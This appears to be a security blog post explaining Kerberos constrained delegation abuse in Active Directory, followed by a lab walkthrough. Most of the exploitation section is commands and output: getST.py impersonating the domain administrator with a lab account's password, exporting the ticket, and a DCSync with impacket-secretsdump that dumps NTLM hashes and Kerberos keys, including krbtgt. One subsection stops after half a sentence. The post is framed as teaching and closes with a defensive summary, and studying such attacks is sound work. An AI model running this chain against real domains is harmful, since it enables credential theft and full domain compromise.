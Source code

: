 ```yaml
---
layout: post
title: Constrained Delegation With Impacket
subtitle: How Impacket Can Help You Tackle Constrained Delegation Attacks
tags: [IMPACKET]
---
```


# What Is A Constrained Delegation Attack

Constrained delegation is a feature in Microsoft's Active Directory that allows a service/account, to impersonate another service/account when accessing network resources. This feature is designed to facilitate authentication and authorization between different services in a network it allows access to a resource on behalf of another account.

One common scenario where constrained delegation is used is with the CIFS protocol, which allows users to access shared network folders. In this case, the CIFS constrained delegation permission is granted to a service/account to allow it to impersonate other accounts when accessing network resources.

In a constrained delegation attack, an attacker could use a compromised account (user or servicer account) with the CIFS constrained delegation permission to impersonate other users and access resources. This could allow the attacker to extract sensitive information or perform malicious actions. A great example of this could be a DCSync attack. 

A DCSync attack is a technique used by attackers to simulate the behavior of a domain controller and request sensitive credential information from Active Directory, such as password hashes for user accounts, potentially leading to a full compromise of the Active Directory environment. This is possible because the account that has delegation rights for CIFS can access that resource as any user, because they have been designated to do so.

## Exploitation With Impacket
In my lab I set up the account "Frodo" to have the `msds allowed to delegate to` attribute set to `CIFS/dc.lotr.local` (this is a extreme example but demonstrates how the attack works). With the CIFS constrained delegation permission, Frodo can impersonate any user or computer account to access SMB network resources, including the administrator account. Frodo can use his CIFS constrained delegation permission to create a TGT as the administrator user, he could then use that TGT to access SMB resources as the administrator. The CIFS delegation allows Frodo to delegate access to SMB shares on the Domain Controller as anyone.

The TGT could be used with impackets dcsync.py script to perform a DCSync, simulating the behavior of a domain controller to retrieve password data via domain replication.

### Enumeration
Using `get-doaminuser` via [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) shows them `msds-allowedtodelegateto` property set. On a engagement this could also be discovered via `bloodhound` 

![img](https://raw.githubusercontent.com/0xZon/0xZon.github.io/main/assets/img/get-domainuserFrodo.png)

### Exploitation With Impacket
Once the account was identified a service ticket was generated with `getST.py`, impersonating the domain admin
```
┌──(root㉿kali)-[~/impacket/examples]
└─# python3 getST.py -spn cifs/dc.lotr.local -impersonate administrator -dc-ip 10.10.1.46 'lotr/frodo:Press#123'
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in administrator.ccache
```

The ticket was then exported in kali
```
┌──(root㉿kali)-[~/impacket/examples]
└─# export KRB5CCNAME=administrator.ccache
```

The DCSync was performed using the ticket. Impacket connected to the domain controller via smb to perform the DCSync.
```
┌──(root㉿kali)-[~/impacket/examples]
└─# impacket-secretsdump -k dc.lotr.local -just-dc
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:81b08c3a5b56ccd94cdac3fb61ed7696:::
lotr.local\frodo:1104:aad3b435b51404eeaad3b435b51404ee:0f7421a8a3d0b0adcafa6862fd766818:::
lotr.local\gandalf:1105:aad3b435b51404eeaad3b435b51404ee:1c3a1a94b9c4f29132f9fdf4c8d8cee1:::
DC$:1000:aad3b435b51404eeaad3b435b51404ee:187d42125902934be349948ef0377245:::
WORKSTATION$:1103:aad3b435b51404eeaad3b435b51404ee:4d0cf71699ba922a8f581496a7aba220:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:2549b882ce260c7b86971c8536cded9dd94eaebab852daf62679b80d4acc06a8
Administrator:aes128-cts-hmac-sha1-96:191dbbfec51eb5e792e4822ee59c6c39
Administrator:des-cbc-md5:b93df4324c4af2cd
krbtgt:aes256-cts-hmac-sha1-96:bb06066912e51660c16ce4733411eab7bfed58ec36b680a39ef4c080a4777181
krbtgt:aes128-cts-hmac-sha1-96:163a2ff7c458a1aa2b27170ec7a5f78c
krbtgt:des-cbc-md5:baa26efe7af8a770
lotr.local\frodo:aes256-cts-hmac-sha1-96:9f13810cfedfd252ba538f0ffe2e0bd6a9ddde4bfc1160d63dc5dd8a45df4011
lotr.local\frodo:aes128-cts-hmac-sha1-96:4782e0c124787bd62e3ef6c53ad81b06
lotr.local\frodo:des-cbc-md5:98f2682c19b0c810
lotr.local\gandalf:aes256-cts-hmac-sha1-96:410394573a6e1f74c24b18dab0f5b61ac76d3d411dee1b77442b6757dce0b8ab
lotr.local\gandalf:aes128-cts-hmac-sha1-96:16c13c6548997aea9f2f4257d0c806e7
lotr.local\gandalf:des-cbc-md5:329129dfa726851c
DC$:aes256-cts-hmac-sha1-96:7aaa5e08414a6ed3ef47ec2ae59be71fe5f434e884719a412ff6228dfc36adaf
DC$:aes128-cts-hmac-sha1-96:f668b00d05e52115dbc1a965fa129779
DC$:des-cbc-md5:c873a1e6d6132af8
WORKSTATION$:aes256-cts-hmac-sha1-96:d9927a3bb33c9549283c9bb06bebe7853abe9f37103c5874424faa1c67feeb2d
WORKSTATION$:aes128-cts-hmac-sha1-96:228d4eef165a3bb937c1f0370ae7a45b
WORKSTATION$:des-cbc-md5:19a7e3e96ef20d6d
[*] Cleaning up...
```

### Other SPN's Worth Noting
If a user or service account 

## Summary
While constrained delegation is intended to be a secure feature, it can become a vulnerability if not properly configured. Attackers can exploit misconfigured delegation rights to gain access to valuable data or escalate their privileges within a network. Therefore, it's crucial to understand how constrained delegation works and to ensure it is properly configured to prevent attackers from abusing it.
